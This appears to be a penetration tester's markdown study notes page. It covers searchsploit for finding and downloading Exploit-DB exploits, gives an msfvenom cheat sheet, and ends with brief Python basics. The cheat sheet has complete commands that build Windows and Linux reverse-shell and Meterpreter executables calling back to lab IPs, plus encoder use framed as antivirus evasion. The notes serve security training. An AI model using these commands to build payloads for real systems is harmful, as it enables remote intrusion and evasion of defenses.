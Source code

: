 # Exploitation

## SearchSploit - Exploit Database search utility

This tool searches Exploitdb.com and allows the download of offline copies of the exploits found.  This is provided by default in Kali distros.

### Install & Updating

This is already installed on Kali Linux, but you can install it with these commands:

```bash
sudo apt update && sudo apt -y install exploitdb
```

Make sure to update your package to get the most up to date archives:

```bash
searchsploit -u
```

### Storage

- Files are stored in `/usr/share/exploitdb/` 

- The exploits directory divides exploits by OS, architecture, and scripting language.

### Searching

Use the searchsploit utility to search through the archives and display results based on search terms.

```bash
# Search for an exploit by keyword(s)
searchsploit [options] term1 term2...
-w	# Show URL's to Exploit-DB.com rather than the local path
-t	# Search JUST the xploit title (default is title and file's path)

# Examples
searchsploit remote smb microsoft windows
```

Results show two columns by default: the Exploit Title and the Path. 

![image-20220215225418284](.5.Vulnerabilities-Exploitation.assets/image-20220215225418284.png)

- The Exploit Title is a short description of the exploit.  You can preview the exploit to get more details.
- The Path describes the path on ExploitDB.com that could be used to load it in a web browser.  The number corresponds to the ExploitDB ID given to the exploit. 
- The extension shown in the path indicates what language the exploit is written in (Ex:  py = Python)

#### Strict Searches

By default, searchsploit does fuzzy searching to match related items, but for multiple terms this can produce a lot of irrelevant results.  To make it use exactly the terms specified, use the strict search option:

```bash
searchsploit -s TERM1 TERM2
```

#### Exclude terms:

```bash
searchsploit TERM --exclude="NOTHIS|ORTHIS|THISEITHER"
```

### Preview an Exploit

To see details on an exploit:

```bash
searchsploit -x NAME/NUMBER
```

### Downloading an Exploit

Use searchsploit to mirror the exploit:

```bash
searchsploit -m NAME/NUMBER

# Options
# You can specify the exploit by its number (no extension) or the path to the code
```

## Metasploit Framework Venom

This can be run from Bash or from Metasploit.  In MSF, you can use the `msfvenom` command or the `generate` command from within a payload.

### Creating a Payload

The basic formula for creating a payload with msfvenom is:

1. Choose a payload type (this should match whatever application and OS you are targeting)

   ```bash
   # Show all payloads
   msfvenom -l payloads  # You will probably want to grep this output because it's a LONG list
   ```

2. Specify options for the payload (for instance, a reverse shell requires the IP and Port the target should connect back to)

   ```bash
   # Show all options for a payload
   msfvenom -p YOUR_PAYLOAD --list-options
   
   # NOTE: Some older versions of msfvenom use --payload-options instead
   ```

3. Specify a format to create the payload in

   ```bash
   # Show all output options
   msfvenom -l formats
   ```

4. Specify an output file (without this, it will dump the payload to the screen for some options)

5. (OPTIONAL) You can also encode the payload to avoid antivirus.

   ```bash
   # Show all encoders
   msfvenom -l encoders
   ```

### msfvenom Cheat Sheets

Windows x86 Reverse TCP Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 --platform windows -a x86 -f exe -o win_revtcp_8000.exe
```

Windows x64 Reverse TCP Payload

```bash
msfvenom -p windows/x64/shell_reverse_tcp LPORT=8000 LHOST=10.10.14.37 --platform windows -a x64 --format exe -o win_revtcp_8000.exe
```

Linux Meterpreter Payload

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f elf -o lin_met_revhttp_8001.elf
```

Linux Reverse TCP Payload

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f elf -o lin_met_revhtt_8000.elf
```

### Executable Files

#### Unencoded Executables

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f exe -o shell_reverse.exe

# Options
-p	# Payload
-f	# Format
-o	# Output filename
```

#### Encoded Executables

Encoding is normally used to bypass character limitations but also serves as a rudimentary AV evasion technique.  More encoding iterations can be used to evade signature detection.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse.exe

# Options
-e	# Encoder to use
-i	# Number of encoding iterations
```

HINT:  x86\shikata_ga_nai is the best

### Links & Cheat Sheets

https://nitesculucian.github.io/2018/07/24/msfvenom-cheat-sheet/

https://netsec.ws/?p=331

# Coding

## Python3 Scripts

This website is an excellent source of information for Python programming:  https://www.w3schools.com/python/default.asp

### Usage

Python is an interpreted programming language, which means code is run directly from files fed into the python interpreter to execute.  Python also has an interactive interpreter where you can enter code line by line directly.

The general syntax to run code in a file is:

```python
python myfile.py
# or
py myfile.py
```

To access the interpreter prompt, simply omit the filenames:

```python
python
# or
py
```

This will bring you to a `>>>` prompt to let you know it is ready to receive your code.  To exit the prompt, type:

```python
# Exit interactive interpreter
exit()
```

### Indention Sensitivity

Python is INDENT SENSITIVE.  You will notice that there are no braces or ending statements to delineate blocks of code.  This is because grouping is handled by indentions.

There is no set amount of spaces or tabs, it just has to be indented at least one space, and it has to be consistent for that block of code.

```python
# This is okay
if 1 > 2
	<This is part of the if>
	<so is this>
<not part of if>

# This is not okay, inconsistent spaces within code block
if 1 > 2
 <This is part of the if>
  <so is this>
<but not this>
```
